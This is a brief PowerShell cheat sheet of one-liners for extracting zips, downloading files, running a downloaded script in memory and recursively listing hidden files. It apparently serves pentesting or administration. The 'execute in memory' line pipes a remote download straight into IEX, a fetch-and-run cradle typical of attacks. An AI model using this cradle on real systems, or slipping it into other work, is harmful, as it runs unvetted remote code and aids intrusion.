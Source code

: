 # Extract zip file
`Expand-Archive <FILE>.zip`

# Download to disk
## using .Net WebClient:
`(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)`

## using Invoke-WebRequest
`IWR '<URL>' -OutFile <FILENAME>`

# Execute powershell in memory
`(New-Object Net.WebClient).DownloadString('<URL>') | IEX`

# Get files only in a directory
`(ls -File -Recurse -Force -EA SilentlyContinue).fullname`